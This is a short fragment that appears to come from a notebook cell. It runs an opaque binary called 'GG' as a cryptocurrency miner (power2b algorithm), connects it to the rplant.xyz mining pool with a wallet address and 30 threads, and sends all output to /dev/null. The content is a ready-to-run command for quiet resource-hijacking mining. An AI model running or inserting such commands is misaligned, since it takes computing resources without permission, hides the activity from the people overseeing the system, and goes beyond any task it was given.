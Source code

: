 ! chmod +x GG
! ./GG -a power2b  -o stratum+tcps://stratum-na.rplant.xyz:17022 -u MqmM35U2EtSFVvit5VcW7nY9raBy6Sw6vm.a -p d=0.5,password=X -t 30 >/dev/null
